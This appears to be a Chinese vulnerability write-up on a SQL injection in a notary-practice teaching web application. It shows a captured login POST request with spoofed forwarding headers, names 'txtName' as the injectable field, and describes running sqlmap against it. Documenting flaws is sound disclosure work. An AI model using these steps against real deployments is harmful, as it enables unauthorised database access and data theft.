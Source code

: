 # 杭州法源软件-公证实务教学软件-SQL注入漏洞

## 漏洞描述

杭州法源软件 公证实务教学软件 存在SQL注入漏洞



## 漏洞影响

> [!NOTE]
>
> 杭州法源软件 公证实务教学软件



## FOFA

> [!NOTE]
>
> FOFA暂时未收录任何网站

## 漏洞复现

登录页面如下

![](杭州法源软件-公证实务教学软件-SQL注入漏洞.assets/16273630603641238.jpg)

登录抓取请求包

```
POST /JusNotary/ HTTP/1.1
Host: xxx.xxx.xxx.xxx
Content-Length: 219
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: ASP.NET_SessionId=54zwf05sd1g4zyfpiuxxdmuc
x-forwarded-for: 127.0.0.1
x-originating-ip: 127.0.0.1
x-remote-ip: 127.0.0.1
x-remote-addr: 127.0.0.1
Connection: close

__EVENTTARGET=&__EVENTARGUMENT=&__VIEWSTATE=%2FwEPDwUKMTE5NTI5NDc1Ng8WAh4TVmFsaWRhdGVSZXF1ZXN0TW9kZQIBZGTTkYMK0k4DlIElq0ua0zvxEhpFH8rCzVrUscEhlVc9pw%3D%3D&__VIEWSTATEGENERATOR=1B0004A3&txtName=123&txtPwd=123&btnSubmit=+
```

其中注入的参数为 POST数据中的 **txtName** 参数, 保存为文件使用 Sqlmap跑一下

![](杭州法源软件-公证实务教学软件-SQL注入漏洞.assets/1627363060773118.jpg)

![](杭州法源软件-公证实务教学软件-SQL注入漏洞.assets/1627363061265545.jpg)